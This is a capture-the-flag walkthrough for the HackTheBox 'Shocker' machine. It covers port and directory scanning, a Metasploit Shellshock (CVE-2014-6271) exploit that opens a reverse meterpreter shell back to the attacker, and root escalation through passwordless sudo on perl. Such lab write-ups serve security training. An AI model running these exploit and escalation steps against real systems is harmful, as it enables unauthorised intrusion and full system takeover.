 ```yaml
---
cover: ../.gitbook/assets/Shocker.png
coverY: 352
layout:
  cover:
    visible: true
    size: full
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Shocker

## Information gathering

* Add a virtual host.

```bash
echo '10.10.10.56 shocker.htb' | sudo tee -a /etc/hosts
```

* Scan all ports & all services.

```bash
nmap -p- -T4 shocker.htb -o nmap-ports
nmap -p 80,2222 -sV -O shocker.htb -o nmap-services
```

* Enumerate the web server

```bash
gobuster dir -u http://shocker.htb/ -w /usr/share/wordlists/dirb/common.txt -o gobuster-common
```

* You find the folder `/cgi-bin/` try to find a file inside of it.

```bash
gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -x pl,cgi,sh -o gobuster-cgi-files
```

* The CGI service is vulnerable to CVE-2014-6271

```
msf6> use exploit/multi/http/apache_mod_cgi_bash_env_exec
msf6> set RHOSTS shocker.htb
msf6> set TARGETURI /cgi-bin/
msf6> set LHOST tun0
msf6> set LPORT 1234
msf6> run
```

* You gain meterpreter access with **shelly**.
* Enumerate the sudo permissions of shelly.

```bash
shelly@target> cat /home/shelly/user.txt
shelly@target> sudo -l
```

* The binary `/usr/bin/perl` can be executed as root with no password.

```
shelly@target> sudo /usr/bin/perl -e "system('bash')"
```

And you gain the **root** access !
